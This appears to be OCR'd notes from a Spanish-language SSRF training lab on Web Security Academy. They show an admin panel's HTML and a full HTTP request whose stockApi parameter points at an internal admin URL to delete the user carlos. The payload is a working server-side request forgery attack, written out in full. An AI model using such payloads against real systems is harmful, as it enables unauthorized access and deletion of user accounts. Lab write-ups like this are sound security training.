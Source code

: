 ```python
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>




PROBAMOS ELIMINAR AL SUAURIOI CARLOs :


REQUEST:




POST /product/stock HTTP/2
Host: 0a530029036032e782788d590019002a.web-security-academy.net
Cookie: session=mfkNFDKANPI7vZIGqiCxMvmnOTqfVgI3
Content-Length: 54
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a530029036032e782788d590019002a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a530029036032e782788d590019002a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

stockApi=http://localhost/admin/delete?username=carlos

```